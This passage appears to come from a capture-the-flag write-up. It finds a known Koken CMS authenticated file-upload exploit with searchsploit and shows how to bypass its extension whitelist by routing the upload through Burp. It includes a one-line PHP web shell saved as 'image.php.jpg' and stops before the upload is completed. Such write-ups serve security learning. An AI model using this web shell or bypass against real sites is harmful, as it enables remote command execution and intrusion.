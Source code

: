 ![](/assets/images/photographer/screenshot-3.png)

As we can see, it contains a text file with the instructions on how to exploit the vulnerability.

```console
root@kali:~$ searchsploit Koken
-------------------------------------------------------------------------- --------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- --------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)                 | php/webapps/48706.txt
-------------------------------------------------------------------------- --------------------------
```

## Exploitation
### Arbitrary File Upload

The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.

We need to create a malicious PHP file as shown below:

```console
root@kali:~$ echo '<?php system($_GET["cmd"]);?>' > image.php.jpg
```

Then, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.
